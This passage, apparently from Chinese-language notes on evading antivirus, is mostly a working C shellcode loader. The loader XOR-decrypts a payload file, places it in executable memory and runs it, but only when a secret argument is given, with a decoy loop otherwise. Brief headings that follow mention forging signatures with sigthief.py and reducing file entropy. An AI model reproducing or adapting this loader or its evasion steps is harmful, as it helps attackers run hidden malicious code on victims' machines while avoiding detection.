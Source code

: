     
    
    #include <stdio.h>  
    #include <Windows.h>  
    #include<string.h>  
    void jisuan(int i) {  
        for (int j = 0; j < i; j++)  
            printf("%d\n", j);  
    }  
    int main(int argc, char* argv[])  
    {  
        if (argc == 2)  
        {  
            char k[] = "998";  
            if (strcmp(argv[1], k) == 0) {  
                int a = 88;//key  
                FILE* file = NULL;  
                char path[] = "c1.bin";  
                fopen_s(&file, path, "rb");  
                fseek(file, 0, SEEK_END);  
                int filelen = ftell(file);  
                fseek(file, 0, SEEK_SET);  
                char* buf = (char*)VirtualAlloc(NULL, filelen, MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
                fread(buf, 1, filelen, file);  
                int b;  
                srand(a);  
                for (int i = 0; i < filelen; i++)  
                {  
                    b = rand() % 9 + 1;//1-9  
                    buf[i] = buf[i] ^ b;  
                }  
                void* p;  
                ((void(*)())buf)();  
            }  
            else {  
                jisuan(88);  
            }  
        }  
        else  
        {  
            jisuan(100);  
        }  
        return 0;  
    }  
    

### 签名

> sigthief.py伪造
>
> signtool不受信任

### 减熵
